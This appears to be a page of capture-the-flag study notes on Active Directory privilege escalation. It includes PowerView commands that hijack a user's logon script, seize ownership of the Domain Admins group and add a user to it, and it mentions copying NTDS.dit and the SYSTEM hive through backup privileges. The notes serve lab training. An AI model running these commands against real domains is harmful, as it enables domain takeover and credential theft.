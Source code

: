 ### PowerView

*   Allows for additional manipulation of AD. Many of the commands presented by BloodHound require PowerView.

    * HTB Example: _**Object**_

    How-To:

    ```python
    . .\\PowerView.ps1

    echo "ls \\users\\user\\desktop > \\programdata\\out" > cmd.ps1

    Set-DomainObject -Identity maria -SET @{scriptpath="C:\\\\programdata\\\\cmd.ps1"}

    ls

    type out
    ```

### WriteOwner

*   Allows an attacker to set the owner of the object and make themselves a member of the object.

    * HTB Example: _**Object**_

    How-To:

    ```python
    . .\\PowerView.ps1

    Invoke-ACLScanner -ResolveGUIDs | ? {$_.identityreferencename -like 'maria'}

    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'maria' # Make Maria the owner

    Add-DomainObjectAcl -TargetIdentity "Domain Admins" -PrincipalIdentity maria -Rights all # Grant Maria all rights

    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'maria'

    net group "Domain Admins" /domain

    # You should see maria. 

    # Log out and log back in.
    ```

### SeBackupPrivilege & SeRestorePrivilege

* Allows the attacker access to any file on the machine given they take the appropriate steps.
* In this example, we can be seen taking the NTDS.dit and System.hive file.
* This is done with a tool called robocopy.
  *   This grants you access to files even if you do not have permissions.

      * HTB Example: _**Blackfield**_
